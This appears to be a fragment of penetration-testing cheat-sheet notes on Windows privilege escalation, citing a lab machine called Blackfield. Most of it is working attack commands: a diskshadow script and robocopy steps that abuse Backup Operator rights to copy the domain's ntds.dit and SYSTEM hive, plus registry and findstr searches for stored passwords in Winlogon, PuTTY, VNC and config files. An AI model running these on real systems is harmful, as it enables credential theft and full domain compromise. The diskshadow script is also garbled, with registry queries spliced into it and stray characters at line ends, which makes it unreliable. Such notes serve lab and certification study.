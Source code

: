 ```bash
cmd.exe /c echo Freedom1 | .\admintool.exe whoami
```

#### Abusing Backup Operator Privileges

From Blackfield.

Transfer the following script.txt onto the machine:

```bash
set verbose onXREG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
set metadata C:\Windows\Temp\meta.cabX
set context  clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Then run:

```bash
diskshadow /s script.txt
...
cd E:\Windows\ntds
dir
cd C:\Windows\Temp
robocopy /b E:\Windows\ntds . ntds.dit
reg save hklm\system C:\Windows\Temp\System
```

#### Clear Text Passwords

```bash
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
dir /s /p proof.txt
dir /s /p local.txt
```
